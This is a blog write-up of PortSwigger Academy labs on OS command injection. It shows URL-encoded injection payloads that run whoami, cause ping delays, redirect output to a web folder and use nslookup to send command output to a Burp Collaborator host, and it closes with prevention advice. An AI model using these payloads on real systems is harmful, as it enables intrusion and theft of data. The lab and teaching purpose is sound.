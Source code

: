 ```yaml
---
title: Os Command Injection Labs
date: 2022-06-10 12:00:00 -0400
image: 
 path: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci0.jpg
 height: 1100
 width: 500
categories: [Web Security, Portswigger Academy]
tags: [web security, labs, owasp, injection]
---
```


OS command injection allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data.

# OS command injection, simple case

This lab contains an [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the `whoami` command to determine the name of the current user.

Solution: 

We intercept the option check stock with Burpsuite to see what parameters are being sent by the function.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci1.jpg)

We see that it is passing the productID and storeID parameters, we will use ; to add the `whoami` command at the system level, we can also use | to add another command to the function.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci2.jpg)

We see that it returns the user peter, and the error is due to the fact that whoami is accompanied by another parameter which is the storeID, but we can see the execution of the command in the output.

# Blind OS command injection with time delays

This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS [command injection](https://portswigger.net/web-security/os-command-injection) vulnerability to cause a 10 second delay.

Solution: 

Since we know that the vulnerability is present, we must intercept the `feedback request`.


![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci3.jpg)

We see the entered fields, now we will try in each field the following payload which was url encoded followed and before a semicolon so that the system executes it since it is blind.

```bash
%3bping+-c+10+127.0.0.1%3b
```

I tried each field and the one I got a response 10 seconds later was the email field.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci4.jpg)

# Blind OS command injection with output redirection

This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:`/var/www/images/`

Solution:

Since we know the writable folder, we will intercept the request after sending a feedback and append the command `whoami`. then redirect the output to a file in the images directory.

`%3bwhoami+>+/var/www/images/whoami.txt%3b`

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci5.jpg)


Using this payload in the name field, we can exploit this vulnerability and retrieve the identity if the machine.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci6.jpg)

We retrieve the user `peter-5ecF3J` accessing to the file `whoami.txt` created before.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci7.jpg)

# Blind OS command injection with out-of-band interaction

This lab contains a blind OS [command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

Solution:

The same approach as others, we intercept the request and append the payload `%3bnslookup+kh517r226djh7tygiznk82rw6nce03.burpcollaborator.net%3b` next to the mail field and in the burp collaborator windows wait for the response.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci8.jpg)

We received the response, so we have out-of-band command injection.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci9.jpg)

# Blind OS command injection with out-of-band data exfiltration

This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

Solution:

Modify the `email` parameter, changing it to something like the following payload: `%3bnslookup+'whoami'zil3gb1836jd20t5u772s4e7pyvojd.burpcollaborator.net%3b` this will exfiltrate the command output data to the burp collaborator client.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci10.jpg)

We receive the output of the command and retrieve the user `peter-wGfYie`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci11.jpg)  

# How to prevent OS command injection attacks

By far the most effective way to prevent OS command injection vulnerabilities is to never call out to OS commands from application-layer code. In virtually every case, there are alternate ways of implementing the required functionality using safer platform APIs.

If it is considered unavoidable to call out to OS commands with user-supplied input, then strong input validation must be performed. Some examples of effective validation include:

-   Validating against a whitelist of permitted values.
-   Validating that the input is a number.
-   Validating that the input contains only alphanumeric characters, no other syntax or whitespace.

Never attempt to sanitize input by escaping shell metacharacters. In practice, this is just too error-prone and vulnerable to being bypassed by a skilled attacker.